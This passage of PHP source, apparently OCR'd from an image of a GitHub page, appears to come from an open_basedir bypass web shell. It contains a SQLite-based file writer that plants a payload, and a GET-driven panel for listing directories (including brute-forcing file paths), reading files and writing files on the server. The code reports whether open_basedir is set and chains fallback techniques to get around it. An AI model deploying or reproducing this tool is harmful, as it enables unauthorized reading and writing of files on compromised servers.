 ```php
		$database = new $sqlite_class(":memory:/{$payload_path}");
		$database->exec("CREATE TABLE foo (bar STRING)");
		$database->exec("INSERT INTO foo (bar) VALUES ('{$payload}')");
		$database->close();
		rmdir(':memory:');
	}
}
 
// End of Core
?>
<?php
$action = isset($_GET['action']) ? $_GET['action'] : '';
$cwd = isset($_GET['cwd']) ? $_GET['cwd'] : getcwd();
$cwd = rtrim($cwd, DIRECTORY_SEPARATOR) . DIRECTORY_SEPARATOR;
$directorLister = fallback(array('GlobWrapperDirectoryLister', 'RealpathBruteForceDirectoryLister'));
$fileWriter = fallback(array('DOMFileWriter', 'SqliteFileWriter'));
$fileReader = fallback(array('DOMFileReader'));
$append = '';
?>
<style>
#panel {
  height: 200px;
  overflow: hidden;
}
#panel > pre {
  margin: 0;
  height: 200px;
}
</style>
<div id="panel">
<pre id="dl">
open_basedir: <span style="color: red"><?php echo ini_get('open_basedir') ? ini_get('open_basedir') : 'Off'; ?></span>
<form style="display:inline-block" action="">
<fieldset><legend>Directory Listing:</legend>Current Directory: <input name="cwd" size="100" value="<?php echo $cwd; ?>"><input type="submit" value="Go">
<?php if (get_class($directorLister) === 'RealpathBruteForceDirectoryLister'): ?>
<?php
$characters = isset($_GET['characters']) ? $_GET['characters'] : $directorLister->characters;
$maxlength = isset($_GET['maxlength']) ? $_GET['maxlength'] : $directorLister->maxlength;
$append = "&characters={$characters}&maxlength={$maxlength}";
 
$directorLister->setMaxlength($maxlength);
?>
Search Characters: <input name="characters" size="100" value="<?php echo $characters; ?>">
Maxlength of File: <input name="maxlength" size="1" value="<?php echo $maxlength; ?>">
<?php endif;?>
Description      : <strong><?php echo $directorLister->getDescription(); ?></strong>
</fieldset>
</form>
</pre>
<?php
$file_path = isset($_GET['file_path']) ? $_GET['file_path'] : '';
?>
<pre id="rf">
open_basedir: <span style="color: red"><?php echo ini_get('open_basedir') ? ini_get('open_basedir') : 'Off'; ?></span>
<form style="display:inline-block" action="">
<fieldset><legend>Read File :</legend>File Path: <input name="file_path" size="100" value="<?php echo $file_path; ?>"><input type="submit" value="Read">
Description: <strong><?php echo $fileReader->getDescription(); ?></strong><input type="hidden" name="action" value="rf">
```